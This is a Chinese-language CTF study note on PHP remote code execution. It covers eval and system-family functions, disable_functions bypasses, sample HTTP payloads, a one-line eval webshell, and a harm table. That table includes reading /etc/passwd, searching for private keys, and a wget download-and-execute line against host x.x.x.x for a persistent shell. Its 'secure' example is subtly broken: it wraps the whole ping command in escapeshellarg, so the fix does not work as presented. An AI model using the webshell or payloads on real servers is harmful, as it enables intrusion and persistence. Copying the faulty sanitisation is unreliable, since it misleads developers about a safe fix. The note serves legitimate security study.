

## 一句话概括

RCE（Remote Code Execution，远程代码执行）是**危害最高**的漏洞类型：当应用把用户输入直接交给 PHP 的代码执行函数或系统命令执行函数时，攻击者就能在服务器上运行任意代码、命令，直至完全控制主机。

## 原理

### 1. 两类 RCE 的区别

| 类型 | 执行的是什么 | 典型函数 | 危害 |
|---|---|---|---|
| **代码执行**（Code Execution） | **PHP 代码**（由 PHP 解释器运行） | `eval()`、`assert()`、`create_function()`、动态函数调用 `$f()` | 直接在应用进程内执行，可读写任意 PHP 变量与文件 |
| **命令执行**（Command Execution） | **操作系统命令**（由 shell 运行） | `system()`、`exec()`、`shell_exec()`、`passthru()`、`popen()`、反引号 | 以 Web 服务用户身份操作整台主机 |

两者的共同点：**输入可控 + 没有做参数隔离**。区别只是"交给谁来跑"。

### 2. 漏洞是怎么形成的

问题不在函数本身，而在于**应用把用户输入当成"程序"而不是"数据"**：

```php
// 危险写法：把用户输入直接拼进代码
eval($_GET['code']);          // 用户输入就是一段 PHP 代码
system("ping " . $_GET['ip']); // 用户输入是命令的一部分，可拼接 ; ls
```

对比安全写法（尽量不用这些函数；必须用时做白名单/intval 校验，或使用参数化的进程调用）：

```php
$ip = $_GET['ip'];
if (!filter_var($ip, FILTER_VALIDATE_IP)) { exit('bad ip'); }
system(escapeshellarg("ping -c 1 $ip"));
```

### 3. 为什么命令执行"威力更大"

命令执行拿到的是 **shell**，等价于在服务器上开了一个终端：可以横向扫描内网、下载后续载荷、写入定时任务做持久化。代码执行虽然只在 PHP 进程内，但同样能通过 `system()` 间接拿到 shell。

## 利用条件

1. **有可控输入进入执行函数**：`$_GET` / `$_POST` / `$_REQUEST` / `$_COOKIE` / `$_SERVER` / 反序列化出来的属性
2. **没有做有效过滤**：常见过滤有黑名单关键字（`cat`、`flag`、`system`）、字符白名单、长度限制，见《RCE漏洞全解》
3. **函数可用**：某些函数可能被 `disable_functions` 禁用，需要换等价函数（见下方速查表）

## Payload 速查

### 代码执行函数

| 函数 | 用法 | 说明 |
|---|---|---|
| `eval()` | `eval('phpinfo();');` | 语言结构，不是函数；把字符串当 PHP 代码执行。**最直接** |
| `assert()` | `assert('phpinfo()');` | PHP 7.2 起字符串代码被废弃、PHP 8.0 移除；老环境仍可用 |
| `create_function()` | `create_function('', 'system($_GET[1]);');` | PHP 7.2 废弃、8.0 移除 |
| `preg_replace()` + `/e` | `preg_replace('/.*/e', $_GET[1], '');` | PHP 7.0 起 `/e` 修饰符移除 |
| 动态函数调用 | `$f = $_GET['f']; $f();` | 变量存函数名再调用，如 `?f=phpinfo` |
| 回调类函数 | `call_user_func()`、`array_map()`、`usort()` | 回调参数可控时可指向 `system` |

### 命令执行函数（重点）

| 函数 | 是否自动回显 | 说明 |
|---|---|---|
| `system($cmd)` | **是** | 直接输出到页面并打印最后一行，**无需 echo/print** |
| `passthru($cmd)` | **是** | 直接输出原始二进制结果，适合读图片等二进制 |
| `exec($cmd, $out)` | **否** | 只返回最后一行，全部输出存入 `$out` 数组，需 `print_r($out)` |
| `shell_exec($cmd)` | **否** | 返回完整输出字符串，需 `echo` |
| `` `$cmd` ``（反引号） | **否** | 等价于 `shell_exec()`，需 `echo` |
| `popen($cmd, 'r')` | **否** | 返回文件指针，需 `fread()` 读取 |
| `proc_open()` | **否** | 最底层，可分别控制 stdin/stdout/stderr |
| `pcntl_exec()` | — | 需要 pcntl 扩展，直接替换进程映像 |

> 一句话记法：**`system` / `passthru` 自己会说话；`exec` / `shell_exec` / 反引号 要你替它说话（echo）。**

### `disable_functions` 被禁用时

| 被禁 | 可尝试的替代 |
|---|---|
| `system`、`exec`、`shell_exec` | `passthru`、`popen`、`proc_open`、反引号 |
| 上述全部 | 代码执行函数（`eval`）、`include` 本地文件、LD_PRELOAD 劫持、`imap_open` 等扩展函数 |
| 拿到 shell 后想执行命令 | 上传小工具 / 用 PHP 自身函数读写文件（`scandir`、`file_get_contents`） |

## 完整示例

### 后端代码（题目常见形态）

```php
<?php
// 场景一：直接命令执行
$cmd = $_GET['cmd'];
system($cmd);
?>
```

```php
<?php
// 场景二：代码执行
eval($_GET['code']);
?>
```

### 对应 payload

```http
GET /?cmd=whoami HTTP/1.1
Host: 靶机地址

GET /?cmd=cat%20/flag HTTP/1.1
Host: 靶机地址
```

```http
GET /?code=phpinfo(); HTTP/1.1
Host: 靶机地址

GET /?code=system('ls'); HTTP/1.1
Host: 靶机地址
```

### 一句话木马

```php
<?php @eval($_REQUEST['cmd']); ?>
```

- `@` 抑制报错，避免回显异常
- `$_REQUEST` 同时接收 GET/POST/COOKIE，用蚁剑（AntSword）等工具连接后即可图形化执行命令
- 上传木马的手法见 `04-文件上传` 分区



## RCE 的危害

| 利用方向 | 示例命令 | 后果 |
|---|---|---|
| 完全控制服务器 | `whoami`、`ls /`、`cat /etc/passwd` | 掌握主机身份与目录结构 |
| 获取敏感数据 | `cat /var/www/html/config.php`、`find / -name '*.pem'` | 数据库密码、证书私钥 |
| 内网渗透 | `ifconfig`、`nmap 192.168.1.0/24` | 以本机为跳板横向移动 |
| 持久化访问 | `wget http://x.x.x.x/shell -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell` | 反弹 shell，长期控制 |

### 危害等级横向对比

| 漏洞类型 | 危害等级 | 影响 |
|---|---|---|
| **RCE** | 严重 | 完全服务器控制 |
| SQL 注入 | 高危 | 数据库泄露 |
| XSS | 中危 | 用户会话劫持 |
| CSRF | 中危 | 用户操作伪造 |
| 信息泄露 | 低危 | 敏感数据暴露 |

## 常见触发方式

1. **代码执行函数**：`eval($_GET['cmd'])`、`assert($_POST['code'])`、`$func = $_GET['func']; $func();`
2. **命令执行函数**：`system($_GET['command'])`、`exec($_POST['cmd'], $output)`、`shell_exec('id ' . $_GET['user'])`、`` `rm -rf /tmp/*` ``
3. **反序列化漏洞**：`unserialize()` 触发魔术方法 `__destruct()` 中的 `system()`（见 `10-PHP反序列化` 分区）
4. **文件包含 + 文件上传**：`include($_GET['file'])` 配合上传图片马后包含执行（见 `05-文件包含` / `04-文件上传` 分区）

## 踩坑与备注

- **`system()` 与 `exec()` 的回显差异最容易踩坑**：原笔记特意记了一句"输入 `ls` 后直接呈现，无需 echo/print 来回显" —— 这是 `system()` 的行为；换成 `exec()` 就必须自己 `echo` 或 `print_r`，否则页面一片空白，常被误判成"没打通"。
- **`eval` 不是函数**，是语言结构，因此不能被变量函数调用（`$f='eval';$f();` 会报错），也不能被 `disable_functions` 禁用（但它无法像函数那样被反射调用）。
- **函数版本差异要记牢**：`assert()` 的字符串代码在 PHP 7.2 废弃、8.0 移除；`preg_replace` 的 `/e` 在 PHP 7.0 移除。老 payload 在新环境直接失效。
- 原文中"常见函数"与"system 回显"两处为**本机截图**（原始图片已随笔记迁移丢失），无法还原，已按函数速查表重建：
  > 此处原为「PHP 常见命令执行函数」的截图
  > 此处原为「system() 执行 ls 后直接回显」的截图
- **本文与《RCE漏洞全解》分工**：本文讲"有哪些函数、各自怎么回显"；另一篇讲"被过滤后怎么绕"，两篇配套看。
